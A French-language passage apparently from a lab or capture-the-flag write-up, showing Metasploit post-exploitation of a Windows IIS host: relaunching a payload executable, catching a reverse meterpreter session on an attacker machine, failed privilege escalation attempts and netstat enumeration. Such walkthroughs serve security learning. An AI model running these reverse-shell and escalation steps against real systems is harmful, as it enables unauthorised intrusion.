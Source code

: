 ```plain
 1580  472   inetinfo.exe            4294967295                    
 2012  472   alg.exe                 4294967295
meterpreter > getuid
Server username: BOBBY\IUSR_BOBBY
```

Malheureusement le process est arrêté au bout d'un moment car le serveur web ou le navigateur génère un timeout (notre exécutable est traité comme un CGI).  

Il faut que l'on relance un process séparément, ce qui peut se faire directement depuis la session *meterpreter* si on est assez rapide :  

```plain
meterpreter > execute -f rbd.exe
Process 756 created.
meterpreter > background
[*] Backgrounding session 2...
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 2 opened (192.168.1.3:9999 -> 192.168.1.11:1048) at 2014-03-25 22:17:02 +0100

meterpreter >
```

Bien maintenant la connexion tient bon mais on ne peut pas faire grand chose avec nos droits en cours :

```plain
meterpreter > getprivs
============================================================
Enabled Process Privileges
============================================================
  SeShutdownPrivilege
  SeChangeNotifyPrivilege
  SeUndockPrivilege

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter > shell
[-] stdapi_sys_process_execute: Operation failed: Access is denied.
```

C'est du au faut que les droits dont on dispose sont ceux d'un *IUSR* (Internet User) qui doit être la correspondance *IIS* du *nobody* pour *Apache/Unix*.  

Voyons voir ce qu'il y a d'autre comme services sur cette machine :  

```plain
meterpreter > netstat

Connection list
===============

    Proto  Local address      Remote address    State        User  Inode  PID/Program name
    -----  -------------      --------------    -----        ----  -----  ----------------
    tcp    0.0.0.0:21         0.0.0.0:*         LISTEN       0     0      1580/inetinfo.exe
    tcp    0.0.0.0:80         0.0.0.0:*         LISTEN       0     0      1580/inetinfo.exe
    tcp    0.0.0.0:135        0.0.0.0:*         LISTEN       0     0      696/svchost.exe
    tcp    0.0.0.0:445        0.0.0.0:*         LISTEN       0     0      4/System
    tcp    0.0.0.0:1025       0.0.0.0:*         LISTEN       0     0      1580/inetinfo.exe
    tcp    0.0.0.0:3389       0.0.0.0:*         LISTEN       0     0      636/svchost.exe
    tcp    127.0.0.1:1026     0.0.0.0:*         LISTEN       0     0      2012/alg.exe
    tcp    192.168.1.11:139   0.0.0.0:*         LISTEN       0     0      4/System
    tcp    192.168.1.11:1062  192.168.1.3:9999  ESTABLISHED  0     0      1224/rbd.exe
```